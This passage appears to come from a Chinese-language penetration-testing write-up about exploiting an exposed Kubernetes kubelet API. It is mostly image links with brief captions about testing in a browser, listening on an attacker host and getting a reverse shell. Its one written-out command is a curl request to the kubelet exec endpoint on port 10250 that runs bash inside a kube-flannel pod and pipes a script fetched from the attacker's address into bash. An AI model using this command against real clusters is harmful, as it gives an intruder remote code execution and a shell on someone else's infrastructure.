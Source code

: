 [![](assets/1701826061-f5db2883d1ee300a9158018f6d7eeed2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025171203-8f8ed894-7316-1.png)  
在本地浏览器中进行简单测试：

[![](assets/1701826061-17ac8f68ba5a6552b08a2c1fea409da1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025171216-976efa26-7316-1.png)  
之后在攻击主机上监听：  
[![](assets/1701826061-aaf067896e9f9f0c2b4d4df4db743583.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025171228-9e83b734-7316-1.png)  
之后进行反弹 shell 操作：

```plain
curl --insecure -v -H "X-Stream-Protocol-Version: v2.channel.k8s.io" -H "X-Stream-Protocol-Version: channel.k8s.io" -X POST "https://192.168.17.144:10250/exec/kube-system/kube-flannel-ds-xwk2t/kube-flannel?command=/bin/bash&command=-c&command=curl+192.168.17.161:80+|+bash&input=1&output=1&tty=1"
```
